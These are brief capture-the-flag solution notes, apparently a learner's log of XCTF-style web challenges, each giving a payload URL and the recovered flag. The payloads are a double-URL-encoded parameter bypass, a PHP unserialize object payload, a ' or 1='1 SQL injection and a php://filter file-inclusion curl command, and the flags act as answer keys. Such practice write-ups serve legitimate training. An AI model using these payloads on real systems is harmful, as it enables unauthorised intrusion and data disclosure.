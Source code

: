 flag: `flag{very_baby_web}`

### php2

```
http://61.147.171.105:61732/index.phps
```

url encode 两次

```
http://61.147.171.105:61732/index.php?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

flag: `cyberpeace{cdb0580a766823b8068b1990cc82d7b2}`

### ics-06

```
http://61.147.171.105:65141/index.php?id=2333
```

flag: `cyberpeace{7e0db468f29382a830c815a71a04a981}`

### unserialize3

```
http://61.147.171.105:65187/?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

。。。不是很懂

flag: `cyberpeace{7ce8124eee9dd3555f9bad0145c1e1e6}`

### inget

```
http://61.147.171.105:59251/?id=1' or 1='1
```

flag: `cyberpeace{041fcebccab3077b3758e05b07cb2473}`

### fileclude

```shell
$ curl POST -d "hello ctf" "http://61.147.171.105:54999/?file2=php://input&file1=php://filter/read=convert.base64-encode/resource=flag.php"
WRONG WAY!<code><span style="color: #000000">
```